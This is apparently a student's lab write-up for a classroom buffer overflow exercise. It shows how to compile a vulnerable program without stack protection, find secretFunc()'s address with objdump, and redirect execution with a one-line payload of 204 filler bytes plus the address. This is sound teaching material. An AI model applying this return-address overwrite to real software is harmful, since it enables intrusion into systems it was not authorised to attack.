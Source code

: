# Lab bof1
Hà Quốc Tiến - 22110075<br>
## Target
- Make the `secretFunc()` run because of buffer-overflow.
## Solution
- Stack frames<br>
![bof1_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof1_1.png)
- In order to run `secretFunc()`, we will have to change the Return Address of `the vuln()` to `secretFunc()` address. So that it will call `secretFunc()`<br>
- We can see in the stack frames, if we want to change the Return Address of `the vuln()`, we have to insert 204 bytes + the address of `secretFunc()`.
## Execution
1. Create `bof1.out` by using ` gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
![bof1_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof1_2.png)
2. Get the address of the `secretFunc()`by using  `objdump -d bof1.out|grep secretFunc`.<br>
![bof1_3](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof1_3.png)
3. Start buffer-overflow, Inserting 204 'a' + the address of `secretFunc()`. In this case is 0x0804846b.<br>
` echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')")| ./bof1.out 1`<br>
the 1 is for argv[1] to not be 0<br>
 ![bof1_4](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof1_4.png)
- The lab is done
